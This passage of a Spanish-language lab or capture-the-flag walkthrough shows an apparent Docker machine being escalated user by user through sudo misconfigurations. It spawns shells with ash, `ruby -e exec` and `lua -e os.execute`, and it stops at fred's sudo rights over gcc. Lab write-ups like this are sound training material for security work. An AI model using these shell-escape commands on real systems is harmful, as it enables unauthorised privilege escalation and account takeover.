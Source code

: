 Vemos **ash** con permisos SUDO :
   ```bash
daphne@32bb9201378f:/$ sudo -u vilma /usr/bin/ash
$ whoami
vilma
```

YA ESTAMOS COMO VILMA.

Vemos si el usuario tiene permisos SUDO:
   ```bash
$ sudo -l
Matching Defaults entries for vilma on 32bb9201378f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vilma may run the following commands on 32bb9201378f:
    (shaggy) NOPASSWD: /usr/bin/ruby

```

Vemos **ruby** con permisos SUDO :
   ```bash
vilma@32bb9201378f:/$ sudo -u shaggy ruby -e 'exec "/bin/sh"'
                             
$ whoami                     
shaggy
```

YA ESTAMOS COMO SHAGGY.

Vemos si el usuario tiene permisos SUDO:
   ```bash
shaggy@32bb9201378f:/$ sudo -l
Matching Defaults entries for shaggy on 32bb9201378f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User shaggy may run the following commands on 32bb9201378f:
    (fred) NOPASSWD: /usr/bin/lua
```

Vemos **lua** con permisos SUDO :
   ```bash
shaggy@32bb9201378f:/$       sudo -u fred lua -e 'os.execute("/bin/sh")'  
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
fred@32bb9201378f:/$  
```

YA ESTAMOS COMO FRED.

Vemos si el usuario tiene permisos SUDO:
   ```bash
fred@32bb9201378f:/$ sudo -l
Matching Defaults entries for fred on 32bb9201378f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User fred may run the following commands on 32bb9201378f:
    (scooby) NOPASSWD: /usr/bin/gcc
```
